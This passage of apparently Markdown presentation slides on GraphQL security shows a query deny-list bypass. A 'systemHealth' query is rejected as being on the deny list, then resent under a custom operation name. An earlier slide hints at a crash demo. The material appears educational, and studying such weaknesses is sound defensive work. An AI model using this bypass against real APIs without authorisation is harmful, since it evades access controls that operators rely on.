 PS: the query is not even needed

---

Result:

![bg right](assets/crash.gif)

---

### Query whitelist/blacklist bypass

Direct query:

```graphql
query {
  systemHealth
}
```

---

```json
{
  "errors": [
    {
      "message": "400 Bad Request: Query is on the Deny List.",
      "locations": [
        {
          "line": 2,
          "column": 2
        }
      ],
      "path": [
        "systemHealth"
      ]
    }
  ],
  "data": {
    "systemHealth": null
  }
}
```

---

Query with custom operation name:

```graphql
query random {
  systemHealth
}
```

---

